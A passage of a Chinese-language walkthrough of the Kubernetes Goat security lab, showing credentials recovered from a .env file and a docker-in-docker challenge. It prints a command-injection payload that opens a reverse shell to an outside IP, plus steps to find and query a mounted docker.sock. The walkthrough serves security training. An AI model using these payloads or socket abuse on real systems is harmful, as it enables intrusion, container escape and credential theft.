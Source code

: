```bash
16:04:22 › cat .env
[build-code-aws]
aws_access_key_id = AKIVSHD6243H22G1KIDC
aws_secret_access_key = cgGn4+gDgnriogn4g+34ig4bg34g44gg4Dox7c1M
k8s_goat_flag = k8s-goat-51bc78332065561b0c99280f62510bcc

```

成功发现了aksk。

说明这种敏感的信息可能不直接出现在文件中，但是可能在git的历史版本中。



## 2.DIND (docker-in-docker) exploitation

主页是一个ping的命令拼接，可以rce。

弹个shell：

```
;bash -c 'bash -i >& /dev/tcp/192.168.0.171/39502 0>&1';
```

进行一下信息收集发现是在容器环境里，全局找一下docker.socket：

```shell
find / -name docker.sock
```

发现在`/custom/docker/docker.sock`。

后续则可以利用这个docker.sock实现进一步利用：

```bash
curl -s --unix-socket /custom/docker/docker.sock -X GET "http://localhost/containers/json"
```



通过mount也可以查找到挂载的信息，里面有docker.sock：

```bash
mount
mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/121/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/120/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/119/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/118/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/117/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/116/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/115/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/114/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/113/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/112/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/111/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/110/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/109/fs,upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/122/fs,workdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/122/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup type cgroup2 (rw,nosuid,nodev,noexec,relatime)
/dev/vda1 on /etc/hosts type ext4 (rw,relatime)
/dev/vda1 on /dev/termination-log type ext4 (rw,relatime)
/dev/vda1 on /etc/hostname type ext4 (rw,relatime)
/dev/vda1 on /etc/resolv.conf type ext4 (rw,relatime)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
tmpfs on /custom/docker/docker.sock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=915972k,mode=755)
```
